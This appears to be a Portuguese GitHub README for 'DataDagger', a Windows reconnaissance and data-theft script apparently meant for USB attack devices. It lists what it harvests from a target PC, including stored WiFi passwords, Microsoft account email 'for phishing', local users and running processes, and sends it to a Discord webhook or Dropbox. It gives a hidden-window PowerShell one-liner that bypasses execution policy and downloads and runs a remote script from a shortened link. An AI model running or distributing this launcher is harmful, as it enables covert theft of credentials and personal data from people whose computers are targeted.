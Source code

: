 ![Logo](https://i.ibb.co/1rpRChk/mini-mini-TH.png)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Descrição">Descrição</a></li>
    <li><a href="#Vamos Começar">Vamos Começar</a></li>
    <li><a href="#Compatibilidade">Compatibilidade</a></li>
    <li><a href="#Histórico de Versões">Histórico de Versões</a></li>
    <li><a href="#Contacto">Contacto</a></li>
    <li><a href="#Conhecimentos">Conhecimentos</a></li>
  </ol>
</details>

# DataDagger

Script de reconhecimento avançado a um computador alvo, capaz de mostrar muita informação sensível

## Descrição

Este programa foi desenvolvido para coletar o máximo de dados possível para fins de reconhecimento. Isso inclui

* Hosts versão do PowerShell (para saber quais comandos podem ser executados)
* Nome associado à conta da Microsoft
* Estejam eles no grupo Admin ou não
* O e-mail associado à conta da Microsoft (para possibilidades de phishing)
* A geolocalização (saber localização aproximada)
* Redes Wifi próximas (possível movimento lateral)
* Informações de rede (endereço IP local e público; endereço MAC; RDP ativado?)
* Perfis WLAN (lista de SSIDs e passwords armazenadas no PC)
* Interfaces de rede (com o que elas estão ligadas)
* Informações do sistema (fabricante, modelo, número de série, sistema operacional, CPU, RAM, BIOS da placa-mãe)
* Utilizadores locais (contas no sistema com nome de usuário, nome associado à conta microsoft e SID)
* Informações sobre os discos rígidos 
* Dispositivos COM e seriais ( dispositivo ligados ou emparelhados com o PC)
* Conexões TCP ativas (varredura de porta)
* Processos, serviços, software e drivers (o que está a ser executado no computador e  que podemos explorar? processos ativos/parados)
* Informações sobre as especifições sobre o PC
* Lista de programas do PC
* Tree (exploração de toda a tree do PC)
## Vamos Começar

### Compatibilidade

* Dropbox ou Discord
* Windows 10,11

<p align="right">(<a href="#top">voltar</a>)</p>

### Execução
* Conectar ao dispositivo
* Esperar alguns segundos e verificar o Discord

`$dc` é a variável que guarda no webhook do discord 

`$db` é a variável que guarda na dropbox 

Um destes deve ser prenchido para os dados serem recolhidos
```
powershell -w h -NoP -Ep Bypass $dc='';$db='';irm bit.ly/ClankPT | iex
```

<p align="right">(<a href="#top">voltar</a>)</p>

## Contribuição

* Clank

* Luís Lopes

* Tiago Casal

<p align="right">(<a href="#top">voltar</a>)</p>

## Histórico de Versões

* 0.1
    * Ainda em desenvolvimento ...

<p align="right">(<a href="#top">voltar</a>)</p>

<!-- CONTACT -->
## Contacto

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://discord.gg/4BURDrRMBZ">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>Discord
    </td>
  </tr>
</table>
</div>



<p align="right">(<a href="#top">voltar</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Conhecimentos

* [Hak5](https://hak5.org/)
* [MG](https://github.com/OMG-MG)

<p align="right">(<a href="#top">voltar</a>)</p>
